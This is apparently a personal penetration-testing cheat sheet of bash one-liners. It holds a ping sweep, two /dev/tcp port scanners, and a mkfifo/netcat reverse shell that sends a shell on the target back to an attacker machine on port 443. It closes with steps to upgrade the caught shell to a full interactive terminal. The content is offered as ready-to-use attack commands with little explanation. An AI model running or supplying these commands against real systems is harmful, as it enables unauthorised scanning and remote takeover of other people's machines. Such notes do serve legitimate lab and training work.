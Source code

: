 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### Network scanner
```bash - kali
#!/bin/bash

for i in `seq 1 255`; do ping -c 1 xxx.xxx.xxx.$i | tr \\n ' ' | awk '/1 received/ {print $2}'; done
```

```bash - kali
for i in {1..255}; do (ping -c 1 x.x.x.${i} | grep "bytes from" &); done
```

#### Port scanner
```bash - kali
#!/bin/bash

#./portscanner.sh -i xxx.xxx.xxx.xxx -p 

#Variables
empty=""
#Arguments for the script
while [ "$1" != "" ]; do
	case "$1" in
		-i | --ip )		ip="$2";	shift;;
		-p | --ports )		ports="$2";	shift;;
	esac
	shift
done
#Checking if the -i is empty
if [[ $ip == $empty ]]; then
	echo "Please specify an IP address with -i"
	exit
fi
#checking is -p is empty
if [[ $ports == $empty ]]; then
	echo "Please specify the max port range -p"
	exit
fi
#Scans ports/Dumps closed ports/displays open ports
for i in $(seq 1 $ports); do
	( echo > /dev/tcp/$ip/$i) > /dev/null 2>&1 && echo $ip":"$i "is open";
done
```

#### Another port scanner
```bash - kali
for i in {1..65535}; do (echo > /dev/tcp/$TARGET/$i) > /dev/null 2>&1 && echo $1 is open; done
```

#### Others
```bash - target
cat > script.sh <<EOF
```

```bash - target
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $KALI 443 >/tmp/f
```

```bash - target
EOF
```

#### STTY Terminal
```bash - target
CTRL+Z
```

```bash - kali
stty raw -echo
```

```bash - kali
stty size
```

```bash - kali
fg
```

```bash - target
export SHELL=bash
```

```bash - target
stty rows $x columns $y 
```

```bash - target
export TERM=xterm-256color
```

